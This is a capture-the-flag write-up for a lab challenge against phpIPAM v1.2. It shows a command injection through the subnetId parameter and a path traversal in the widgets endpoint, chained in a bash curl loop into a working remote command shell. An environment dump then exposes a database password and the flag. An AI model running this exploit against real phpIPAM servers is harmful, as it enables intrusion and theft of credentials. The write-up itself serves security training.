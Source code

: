 # Chapter 2: Origins (4 points)

Hi, TCC-CSIRT analyst,

do you know the feeling when, after a demanding shift, you fall into lucid
dreaming and even in your sleep, you encounter tricky problems? Help a
colleague solve tasks in the complex and interconnected world of LORE, where it
is challenging to distinguish reality from fantasy.

* The entry point to LORE is at http://intro.lore.tcc.

See you in the next incident!

## Hints

* Be sure you enter flag for correct chapter.

## Solution

```text
2 Origins

An ink on blue,
Revealing sources of olden days,
Very silent whisper.

Not assigned, but findable,
The passage for anyone,
Shall ease the mind.
```

After opening the link for the second chapter, we can see a login form of
`phpIPAM IP address management [v1.2]`. We can download the [source code] of
this version for further exploration.

We can see that there are quite a few places where `exec()` method is being
called.

```console
$ grep -r "exec(" phpipam
phpipam/api/v1/functions/functions-common.php:  $ver = shell_exec("grep 'Project-Id-Version:' ".dirname(__FILE__)."/locale/$code/LC_MESSAGES/phpipam.po");
phpipam/api/v1/functions/functions-network.php:     exec($cmd, $output, $retval);
phpipam/api/v1/_examples/apiClient.php:      $result = curl_exec($ch);
phpipam/app/admin/import-export/generate-mysql.php:$content .= shell_exec($command);
phpipam/app/admin/version-check/index.php:      $commit_log = shell_exec("git log");
phpipam/app/subnets/scan/subnet-scan-icmp.php:exec($cmd, $output, $retval);
phpipam/app/subnets/scan/subnet-scan-telnet.php:exec($cmd, $output, $retval);
phpipam/app/subnets/scan/subnet-update-icmp.php:exec($cmd, $output, $retval);
```

If we take a closer look at e.g. `app/subnets/scan/subnet-scan-telnet.php` we
can see that it performs only some basic `port` parameter checking, after which
it constructs a command string which it executes without any further checks.

```php
<?php

/*
 * Discover new hosts with telnet scan
 *******************************/

# get ports
if(strlen($_POST['port'])==0) 	{ $Result->show("danger", _('Please enter ports to scan').'!', true); }

//verify ports
$pcheck = explode(";", str_replace(",",";",$_POST['port']));
foreach($pcheck as $p) {
	if(!is_numeric($p)) {
		$Result->show("danger", _("Invalid port")." ($p)", true);
	}
}
$_POST['port'] = str_replace(";",",",$_POST['port']);


# invoke CLI with threading support
$cmd = $Scan->php_exec." ".dirname(__FILE__) . "/../../../functions/scan/subnet-scan-telnet-execute.php $_POST[subnetId] '$_POST[port]'";

# save result to $output
exec($cmd, $output, $retval);

# format result back to object
$script_result = json_decode($output[0]);
```

This implies that we can (ab)use the `subnetId` parameter to inject and execute
any command we want. The only downside is that we won't be able to see the
command output, as the script assumes that the output is JSON which it tries to parse and process further.

In addition to the script above, we can come across
`app/dashboard/widgets/index.php` which displays/renders any `.php` file on the server and is vulnerable to path traversal.

```php
<?php

# get filelist for all configured widgets


# include requested widget file
if(!file_exists(dirname(__FILE__)."/".$_GET['section'].".php"))		{ $_REQUEST['section']="404"; print "<div id='error'>"; include_once('app/error.php'); print "</div>"; }
else																{ include(dirname(__FILE__) . "/".$_GET['section'].".php"); }

?>
```

We can combine these two pieces of information and write a primitive shell that
will:
* abuse `subnet-scan-telnet.php` to execute a given command and store the
  output in `/tmp/myprecious.php`
* abuse `widgets` endpoint to retrieve and display the file with the command
  output
* abuse `subnet-scan-telnet.php` to execute a delete command to remove the file
  with the output, so no hints areleft on the server for other explorers
  :smiling_imp:

```shell
HOST=http://pimpam.lore.tcc
while read -p "${HOST}\$ " CMD; do
  curl -s -d "port=80" --data-urlencode "subnetId=1 80 || (${CMD}) >/tmp/myprecious.php 2>&1 || echo" "${HOST}/app/subnets/scan/subnet-scan-telnet.php" >/dev/null
  curl -s "${HOST}/app/dashboard/widgets/?section=..%2F..%2F..%2F..%2F..%2F..%2Ftmp%2Fmyprecious" --output -
  curl -s -d "port=80" --data-urlencode "subnetId=1 80 || rm /tmp/myprecious.php || echo" "${HOST}/app/subnets/scan/subnet-scan-telnet.php" >/dev/null
done
```

Now that we can execute commands on the server, we can execute e.g. `printenv`
to print the environment variables of the runnung process.

```text
KUBERNETES_SERVICE_PORT=443
KUBERNETES_PORT=tcp://192.168.128.1:443
PIMPAM_DB_SERVICE_PORT=3306
PIMPAM_DB_PORT=tcp://192.168.167.76:3306
PIMPAM_DB_PORT_3306_TCP=tcp://192.168.167.76:3306
HOSTNAME=pimpam-7b7c7f4c87-q8z9n
PIMPAM_WEB_SERVICE_HOST=192.168.200.130
OLDPWD=/
PIMPAM_DBPASS=2eb6a09ff7b8417c4344c8bde185a512
APACHE_RUN_DIR=/var/run/apache2
APACHE_PID_FILE=/var/run/apache2/apache2.pid
PIMPAM_WEB_PORT=tcp://192.168.200.130:80
PIMPAM_WEB_SERVICE_PORT=80
PIMPAM_DBHOST=pimpam-db
PIMPAM_WEB_SERVICE_PORT_WEB=80
PIMPAM_WEB_PORT_80_TCP_ADDR=192.168.200.130
KUBERNETES_PORT_443_TCP_ADDR=192.168.128.1
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
PIMPAM_WEB_PORT_80_TCP_PORT=80
PIMPAM_WEB_PORT_80_TCP_PROTO=tcp
KUBERNETES_PORT_443_TCP_PORT=443
APACHE_LOCK_DIR=/var/lock/apache2
KUBERNETES_PORT_443_TCP_PROTO=tcp
LANG=C
PIMPAM_DBNAME=pimpam
APACHE_RUN_USER=www-data
APACHE_RUN_GROUP=www-data
APACHE_SERVER_NAME=localhost
APACHE_LOG_DIR=/var/log/apache2
PIMPAM_WEB_PORT_80_TCP=tcp://192.168.200.130:80
PIMPAM_DB_PORT_3306_TCP_ADDR=192.168.167.76
KUBERNETES_SERVICE_PORT_HTTPS=443
KUBERNETES_PORT_443_TCP=tcp://192.168.128.1:443
KUBERNETES_SERVICE_HOST=192.168.128.1
PIMPAM_DB_PORT_3306_TCP_PORT=3306
PWD=/var/www/html/app/subnets/scan
PIMPAM_DB_PORT_3306_TCP_PROTO=tcp
PIMPAM_DB_SERVICE_HOST=192.168.167.76
PIMPAM_DB_SERVICE_PORT_MYSQL=3306
FLAG=FLAG{V51j-9ETA-Swya-8cOR}
```

We can see and submit the flag now, however, this server and the ability to
run commands there will come handy in [Chapter 3: Bounded] and
[Chapter 4: Uncle].

[source code]: https://github.com/phpipam/phpipam/tree/v1.2.0
[Chapter 3: Bounded]: ../lore-3-bounded
[Chapter 4: Uncle]: ../lore-4-uncle
